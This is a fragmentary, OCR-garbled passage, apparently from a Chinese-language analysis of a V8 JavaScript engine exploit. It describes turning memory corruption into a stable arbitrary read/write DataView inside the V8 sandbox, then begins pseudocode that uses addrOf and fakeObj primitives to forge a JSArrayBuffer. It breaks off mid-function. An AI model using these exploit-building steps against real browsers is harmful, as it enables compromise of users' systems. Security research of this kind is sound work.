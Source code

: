   
。  
  
  
至此，攻击方获得了一个“上帝视角”的DataView，可以通过简单的 
```
sbxMemory.getBigUint64()
```

  
 和 
```
sbxMemory.setBigUint64()
```

  
，在V8沙箱的任何地址上进行稳定、可靠的读写。这一步将一个不稳定的内存损坏漏洞，工程化成了一个可靠的内存控制API。  
  
// 伪代码: v8/cage.js 的核心逻辑  
  
function  
getSbxMemory  
(  
addrOf  
,  
fakeObj  
) {  
  
      
// 1. 创建一个正常的ArrayBuffer作为模板  
  
      
let  
a =  
new  
ArrayBuffer  
(  
8  
);  
  
  
      
// 2. 获取其内存地址  
  
      
let  
a_addr =  
addrOf  
(a);  
  
  
      
// 3. 伪造一个JSArrayBuffer对象，并修改其元数据  
  
      
// (需要精确计算Map、backing_store等字段的偏移量)  
  
      
let  
fake_ab_addr = a_addr +  
0x40n  
;  
  
      